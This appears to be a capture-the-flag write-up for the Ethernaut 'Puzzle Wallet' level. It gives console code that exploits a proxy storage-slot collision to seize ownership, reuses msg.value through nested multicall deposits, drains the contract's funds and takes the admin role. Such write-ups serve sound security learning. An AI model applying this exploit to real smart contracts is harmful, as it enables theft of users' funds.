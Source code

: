 ## Steps
1. Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

2. Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

3. Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker
### Step 3 console code
- `depositData = await contract.methods["deposit()"].request().then(value => value.data)`
- `multicallDepositData = await contract.methods["multicall(bytes[])"].request([depositData]).then(value => value.data)`
- `await contract.multicall([multicallDepositData, multicallDepositData], {value: 0.001 * 10**18})`
- `await contract.execute(player, await contract.balances(player).then(n=>n.toNumber()), 0)`

4. Use `setMaxBalance` to set value of `admin` in proxy to attacker
